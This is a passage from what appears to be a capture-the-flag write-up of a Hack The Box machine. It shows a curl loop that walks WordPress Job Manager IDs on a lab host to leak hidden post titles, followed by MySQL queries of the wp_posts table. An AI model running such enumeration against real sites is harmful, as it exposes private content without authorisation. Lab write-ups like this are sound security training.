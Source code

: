     12 rows in set (0.00 sec)



All of the titles are what I was able to leak out through this
vulnerability:



    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $for i in $(seq 1 25); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1; done
    1: Job Application: Hello world!
    2: Job Application: Sample Page
    3: Job Application: Auto Draft
    4: Job Application
    5: Job Application: Jobs Listing
    6: Job Application: Job Application
    7: Job Application: Register
    8: Job Application: Pen Tester
    9: Job Application:
    10: Job Application: Application
    11: Job Application: cube
    12: Job Application: Application
    13: Job Application: HackerAccessGranted



It's interesting here is how WordPress jams together all these different
types of "post". Interesting the guid seems to show a url for the page,
but the IP is wrong (maybe that's the IP the box was created on?). There
are all different types of post, like `post`, `page`, `nav_menu_item`,
and then things associated with `jobman`, and `attachment`. The guids
have `urls` that mostly work, though they have the wrong IP. I do see
the guid for "HackerAccessGranted" points to the location where I found
the image.

None of these posts have any actual content:



    mysql> select post_content from wp_posts where id > 4;
    +-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | post_content                                                                                                                                                                                                                            |
    +-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | Hi! This page is used by your Job Manager plugin as a base. Feel free to change settings here, but please do not delete this page. Also note that any content you enter here will not show up when this page is displayed on your site. |
    |                                                                                                                                                                                                                                         |
    |                                                                                                                                                                                                                                         |
    |                                                                                                                                                                                                                                         |
    |                                                                                                                                                                                                                                         |
    |                                                                                                                                                                                                                                         |
    |                                                                                                                                                                                                                                         |
    |                                                                                                                                                                                                                                         |
    |                                                                                                                                                                                                                                         |
    +-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    9 rows in set (0.00 sec)
